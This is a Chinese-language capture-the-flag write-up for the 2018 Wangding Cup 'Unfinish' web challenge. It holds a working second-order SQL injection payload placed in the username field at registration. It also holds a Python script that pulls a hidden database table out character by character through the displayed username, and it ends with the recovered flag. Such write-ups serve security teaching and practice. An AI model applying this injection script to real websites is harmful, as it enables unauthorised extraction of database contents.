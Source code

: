 # [网鼎杯2018]Unfinish
![](<./img/Pasted image 20230123100544.png>)

```
/login.php
```

![](<./img/Pasted image 20230123100602.png>)

```
/register.php
```

![](<./img/Pasted image 20230123101004.png>)

```
/index.php
```

![](<./img/Pasted image 20230123101414.png>)

![](<./img/Pasted image 20230123105630.png>)

只有用户名存在回显

猜测注册时执行类似下面的查询

```sql
INSERT INTO users (username, password, email)
VALUES ('$username', '$password', '$email')
```

注册时，如果用户名包含`,`则会回显`nnnnoooo!!!`

尝试对用户名进行注入

```
username='+7*8+'
```

![](<./img/Pasted image 20230123111509.png>)

验证了上面的猜测

```python
import requests
import time
import os
from bs4 import BeautifulSoup

url = 'http://xxx.node4.buuoj.cn:81/{}'
session = requests.sessions.Session()


def register(username, password, email):
    data = {'username': username, 'password': password, 'email': email}
    requests.post(url.format('register.php'), data=data)

def login(email, password):
    data = {'email': email, 'password': password}
    session.post(url.format('login.php'), data=data)

def get_username():
    return BeautifulSoup(session.get(url.format('index.php')).text, 'lxml').select_one('.user-name').getText()

def hack(username, password, email):
    register(username, password, email)
    login(email, password)
    print(chr(int(get_username())), end='')
    os.sys.stdout.flush()

for index in range(100):
    hack("'+ascii(substr((select * from flag) from {} for 1))+'".format(index), '123', '{}@123.45'.format(index))
    time.sleep(0.5)
```

```
flag{621b1f14-9443-4f74-af48-f6783c178030}
```
